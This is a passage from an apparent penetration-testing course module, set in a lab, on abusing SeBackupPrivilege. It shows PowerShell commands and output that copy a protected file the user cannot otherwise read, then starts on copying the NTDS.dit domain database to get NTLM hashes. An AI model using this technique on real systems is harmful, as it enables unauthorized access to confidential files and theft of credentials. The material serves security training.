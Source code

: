 #### Copying a Protected File

As we can see above, the privilege was enabled successfully. This privilege can now be leveraged to copy any protected file.

Windows Built-in Groups

```powershell-session
PS C:\htb> dir C:\Confidential\

    Directory: C:\Confidential

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/6/2021   1:01 PM             88 2021 Contract.txt


PS C:\htb> cat 'C:\Confidential\2021 Contract.txt'

cat : Access to the path 'C:\Confidential\2021 Contract.txt' is denied.
At line:1 char:1
+ cat 'C:\Confidential\2021 Contract.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Confidential\2021 Contract.txt:String) [Get-Content], Unauthor
   izedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

Windows Built-in Groups

```powershell-session
PS C:\htb> Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt

Copied 88 bytes


PS C:\htb>  cat .\Contract.txt

Inlanefreight 2021 Contract

==============================

Board of Directors:

<...SNIP...>
```

The commands above demonstrate how sensitive information was accessed without possessing the required permissions.

#### Attacking a Domain Controller - Copying NTDS.dit

This group also permits logging in locally to a domain controller. The active directory database `NTDS.dit` is a very attractive target, as it contains the NTLM hashes for all user and computer objects in the domain. However, this file is locked and is also not accessible by unprivileged users.
